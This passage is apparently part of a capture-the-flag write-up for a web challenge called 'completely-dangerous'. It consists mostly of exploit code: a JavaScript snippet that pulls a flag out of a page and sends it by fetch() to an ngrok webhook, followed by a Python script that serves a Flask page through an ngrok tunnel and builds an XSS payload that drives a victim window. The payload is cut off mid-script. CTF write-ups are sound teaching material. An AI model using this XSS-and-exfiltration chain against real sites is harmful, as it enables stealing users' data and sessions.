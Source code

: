 ```html
    // extract flag from body
    const body = w.document.body.innerHTML;
    const flagMatch = body.match(/toh\\{{([^}}]+)\\}}/);
    if (flagMatch) {
        const flag = flagMatch[1];
        fetch('{webhook_url}/?flag=' + encodeURIComponent(flag), { 'mode': 'no-cors' });
    } else {
        console.error('Flag not found in body:', body);
    }
})();
</script>
```

Final exploit:
```py
import requests
from pyngrok import ngrok
import sys

s = requests.Session()
# ignore cert errors, needed for local testing
s.verify = False

# check for LOCAL or REMOTE
local = sys.argv[1] != 'remote' if len(sys.argv) > 1 else True

bot_url = "http://localhost:5001"
if not local:
    bot_url = "https://bot.completely-dangerous.ctf.towerofhanoi.it"
app_url = "https://localhost:5000"
if not local:
    app_url = "https://completely-dangerous.ctf.towerofhanoi.it"

ngrok_tunnel = ngrok.connect(5050)
webhook_url = ngrok_tunnel.public_url

username='xssthis'
password='xssisfun'

from flask import Flask, render_template

app = Flask(__name__)

@app.route('/x', methods=['GET'])
def x():
    bot_credentials_app_url = "https://chall:5000" if local else app_url
    return render_template('x.html', username=username, password=password, app_url=bot_credentials_app_url)

import base64
from threading import Thread

def encode_base64(data):
    """Encode data to base64."""
    if isinstance(data, str):
        data = data.encode('utf-8')
    return base64.b64encode(data).decode('utf-8')

xss_payload = f"""<script>
const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
(async () => {{
    w = window.open('/')
    await sleep(1000);
    logoutbtn = w.document.getElementsByClassName('logout-btn')
```